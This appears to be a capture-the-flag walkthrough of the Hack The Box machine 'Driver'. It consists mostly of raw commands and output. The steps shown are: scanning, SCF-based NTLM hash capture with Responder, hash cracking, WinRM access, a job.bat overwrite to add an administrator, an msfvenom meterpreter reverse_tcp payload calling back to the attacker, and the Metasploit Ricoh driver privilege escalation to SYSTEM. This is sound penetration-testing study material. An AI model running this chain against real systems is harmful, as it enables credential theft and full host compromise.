

# Driver

sudo nmap -sCV 10.129.95.238

[sudo] password for oscpmaster:
Starting Nmap 7.99 ( [https://nmap.org](https://nmap.org/) ) at 2026-06-20 11:03 -0400
Nmap scan report for 10.129.95.238
Host is up (0.044s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|*http-title: Site doesn't have a title (text/html; charset=UTF-8).
|http-server-header: Microsoft-IIS/10.0
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods:
|*  Potentially risky methods: TRACE
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
|*clock-skew: mean: 6h59m57s, deviation: 0s, median: 6h59m57s
| smb2-time:
|   date: 2026-06-20T22:03:26
|*  start_date: 2026-06-20T22:01:19
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

sudo nmap -p- -T5 10.129.95.238

[sudo] password for oscpmaster:
Starting Nmap 7.99 ( [https://nmap.org](https://nmap.org/) ) at 2026-06-20 11:03 -0400
Nmap scan report for 10.129.95.238
Host is up (0.041s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman
7680/tcp open  pando-pub

cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

The following lines are desirable for IPv6 capable hosts

::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouter
192.168.201.188 [localhost.paradigmshifts.com](http://localhost.paradigmshifts.com/) [paradigmshifts.com](http://paradigmshifts.com/)
10.129.95.238 DRIVER

authenticated to [http://10.129.95.238/](http://10.129.95.238/) with admin:admin




malicious .scf file upload 

sudo responder -I tun0 -v

[SMB] NTLMv2-SSP Client   : 10.129.95.238
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:5b6894733d00caf4:EAA081C9AA168AECFADA7E777BFC2487:010100000000000000BAABB6AE00DD019ACF37410F4019CB00000000020008004A0051004400560001001E00570049004E002D004E005A005A003900450034004800530030004B00330004003400570049004E002D004E005A005A003900450034004800530030004B0033002E004A005100440056002E004C004F00430041004C00030014004A005100440056002E004C004F00430041004C00050014004A005100440056002E004C004F00430041004C000700080000BAABB6AE00DD010600040002000000080030003000000000000000000000000020000073EC7F42D283580A713E7D6D0DDB3269FB3B071439C07A869373706680CE521C0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310035002E00320030003600000000000000000000000000

sudo hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt

tony:liltony

crackmapexec smb 10.129.95.238 -u tony -p liltony --shares
SMB         10.129.95.238   445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.129.95.238   445    DRIVER           [+] DRIVER\tony:liltony
SMB         10.129.95.238   445    DRIVER           [+] Enumerated shares
SMB         10.129.95.238   445    DRIVER           Share           Permissions     Remark

SMB         10.129.95.238   445    DRIVER           -----           -----------     ------

SMB         10.129.95.238   445    DRIVER           ADMIN$                          Remote Admin

SMB         10.129.95.238   445    DRIVER           C$                              Default share

SMB         10.129.95.238   445    DRIVER           IPC$

crackmapexec winrm 10.129.95.238 -u tony -p liltony

SMB         10.129.95.238   5985   DRIVER           [*] Windows 10 Build 10240 (name:DRIVER) (domain:DRIVER)
HTTP        10.129.95.238   5985   DRIVER           [*] [http://10.129.95.238:5985/wsman](http://10.129.95.238:5985/wsman)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
arc4 = algorithms.ARC4(self._key)
WINRM       10.129.95.238   5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)

evil-winrm -i 10.129.95.238 -u tony -p liltony

Evil-WinRM shell v3.9

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: [https://github.com/Hackplayers/evil-winrm#Remote-path-completion](https://github.com/Hackplayers/evil-winrm#Remote-path-completion)

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\tony\Documents>

*Evil-WinRM* PS C:\Users\tony\Desktop> cat user.txt
fc2d855c1f102dec7a1eb14266372f5b
*Evil-WinRM* PS C:\Users\tony\Desktop> whoami
driver\tony
*Evil-WinRM* PS C:\Users\tony\Desktop> hostname
DRIVER

interesting winPEAS output

```
(DRIVER\\Administrator) VerifyFirmware: C:\\Users\\tony\\appdata\\local\\job\\job.bat
Permissions file: tony [Allow: AllAccess]
Permissions folder(DLL Hijacking): tony [Allow: AllAccess]
Trigger: At log on of DRIVER\\tony
```

*Evil-WinRM* PS C:\Users\tony\appdata\local\job> ls

```
Directory: C:\\Users\\tony\\appdata\\local\\job
```

Mode                LastWriteTime         Length Name

---

- a---- 9/8/2021 1:04 AM 215 job.bat
-a---- 9/8/2021 12:13 AM 344 quit.ps1

*Evil-WinRM* PS C:\Users\tony\appdata\local\job> cat job.bat
@echo off

:LOOP

%SystemRoot%\explorer.exe "C:\firmwares"

ping -n 20 127.0.0.1 > nul && powershell -ep bypass c:\users\tony\appdata\local\job\quit.ps1

DEL /q C:\firmwares\*

cls

GOTO :LOOP

:EXIT
*Evil-WinRM* PS C:\Users\tony\appdata\local\job> icacls quit.ps1
quit.ps1 NT AUTHORITY\SYSTEM:(F)
BUILTIN\Administrators:(F)
DRIVER\tony:(F)

Successfully processed 1 files; Failed processing 0 files
*Evil-WinRM* PS C:\Users\tony\appdata\local\job> icacls job.bat
job.bat NT AUTHORITY\SYSTEM:(F)
BUILTIN\Administrators:(F)
DRIVER\tony:(F)

Successfully processed 1 files; Failed processing 0 files
*Evil-WinRM* PS C:\Users\tony\appdata\local\job> cat quit.ps1
$folder = [uri]'C:\firmwares'
foreach ($w in (New-Object -ComObject Shell.Application).Windows())
{ if ($w.LocationUrl -ieq $folder.AbsoluteUri)
{$w.Quit(); break}
}

*Evil-WinRM* PS C:\Users\tony\appdata\local\job> echo "net localgroup administrators tony /add" > job.bat

Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'

ping 1.1.1.1
ping 1.1.1.1

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.206 LPORT=4444
-f exe -o payload.exe

use multi/handler

msf exploit(multi/handler) > set lhost tun0
lhost => 10.10.15.206

msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.15.206:4444
[*] Sending stage (248902 bytes) to 10.129.95.238
[*] Meterpreter session 31 opened (10.10.15.206:4444 -> 10.129.95.238:49470) at 2026-06-21 01:14:27 -0400

meterpreter >

meterpreter > bg
[*] Backgrounding session 31...
msf exploit(multi/handler) > use windows/local/ricoh_driver_privesc

msf exploit(windows/local/ricoh_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/ricoh_driver_privesc) > run

msf exploit(windows/local/ricoh_driver_privesc) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > ps

ps -U tony
Filtering on user 'tony'

migrate -N explorer.exe
[*] Migrating from 3308 to 3120...
[*] Migration completed successfully.
meterpreter > bg
[*] Backgrounding session 1...
msf exploit(windows/local/ricoh_driver_privesc) > run
[*] Started reverse TCP handler on 10.10.15.206:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[*] Adding printer mAsDvxaN...
[*] Sending stage (248902 bytes) to 10.129.17.72
[+] Deleted C:\Users\tony\AppData\Local\Temp\WSsTXeomA.bat
[+] Deleted C:\Users\tony\AppData\Local\Temp\headerfooter.dll
[*] Meterpreter session 2 opened (10.10.15.206:4444 -> 10.129.17.72:49422) at 2026-06-21 03:02:19 -0400

meterpreter > shell
Process 1660 created.
Channel 2 created.
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
ced0d6613b0d1c350c5a091840318cba